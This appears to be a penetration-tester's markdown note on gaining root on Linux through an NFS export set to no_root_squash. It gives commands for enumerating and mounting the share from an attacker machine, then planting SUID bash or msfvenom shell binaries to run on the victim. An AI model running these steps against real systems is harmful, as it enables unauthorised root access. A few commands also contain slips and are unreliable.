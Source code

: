 NFS=Network File Share
#### cat /etc/exports
This command show the nfs configure file if it exists.
- We have to look for in the configuration file if the protection is  no_root_squash or root_squash.If it is no_root_squash
  then privilege escalation is possible.We aslo look for which folder is shared.We find these info in conf file.
#### From our attacking machine we scan the victim ip using nmap to see if nfs is available or not.
- nmap 10.10.12.172
#### showmount -e 10.10.12.172
- the above command show which folder is shared in the target system.
#### Mount the shared folder with attacker machine
- create a folder in /mnt default folder
- "mkdir /mnt/tmp"  this will create a folder name tmp in /mnt folder.
- "mount -o rw,vers=3 10.10.12.172:/tmp /mnt/tmp"   (this will mount the victim /tmp shared folder with attacker /mnt/tmp folder
- now from attacker machine we can create file will for setting suid,reverse shell,using msfvenom or other ways to take
  root shell
#### Getting shell
- we can copy /bin/bash into attacker tmp folder using "cp /bin/bash ." .Then we need to make it executable "chmod +sx ./bin/bash"
then we will run the "./bash -p" in victim machine.
- use msfvenom in attacker tmp folder "msfvenom -p linux/x64/exec CMD="/bin/sh" -f elf -o shell" this command create
  a shell file.We will this  "chmod +xs ./shell" to make is executable.In victim machine we will "./shell" to run the command
  which will give us root shell into victim machine.
#### Resources
- https://www.youtube.com/watch?v=R8CdLJM5w9c&list=PL-DxAN1jsRa818Ew7WI1_ngpULwDDESSI&index=7
- https://touhidshaikh.com/blog/2018/04/nfs-weak-permissionslinux-privilege-escalation/
  
